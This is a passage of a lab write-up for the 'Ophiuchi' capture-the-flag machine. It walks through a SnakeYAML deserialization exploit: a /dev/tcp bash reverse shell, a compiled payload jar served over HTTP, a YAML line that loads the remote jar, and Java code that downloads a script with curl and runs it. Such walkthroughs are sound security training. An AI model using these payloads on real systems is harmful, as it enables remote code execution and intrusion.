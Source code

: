 The bash reverse shell was the following one:
```bash
#!/bin/sh
bash -i >& /dev/tcp/10.10.14.24/80 0>&1
```

After having prepared the payloads, the java file was compiled as described inside the repo and the second stage payload was hosted:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1563) (out= 431)(deflated 72%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1635) (out= 692)(deflated 57%)
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)

┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The exploit was then submitted to the parser and the second stage payload was downloaded:
```yaml
!!javax.script.ScriptEngineManager [!!java.net.URLClassLoader [[!!java.net.URL ["http://10.10.14.24/yaml-payload.jar"]]]]
```
![Pasted image 20210502221717.png]({{page.screenshots}}Pasted image 20210502221717.png)
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [02/May/2021 16:14:01] "GET /yaml-payload.jar HTTP/1.1" 200 -
```

Once downloaded the bash reverse shell on the target, it was necessary to execute it. To achieve the task the `AwesomeScriptEngineFactory.java` was edited once again, this time with the purpose to execute the previously uploaded bash script and provide a reverse shell.

Second payload:
```bash
┌──(kali㉿kali)-[~/…/box/Ophiuchi/exploit/yaml-payload]
└─$ nano src/artsploit/AwesomeScriptEngineFactory.java

import javax.script.ScriptEngineFactory;
import java.io.IOException;
import java.util.List;

public class AwesomeScriptEngineFactory implements ScriptEngineFactory {

    public AwesomeScriptEngineFactory() {
        try {
        //Runtime.getRuntime().exec("curl http://10.10.14.24:443/rs.sh -o /tmp/rev.sh");
        Runtime.getRuntime().exec("bash /tmp/rev.sh");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
	...
```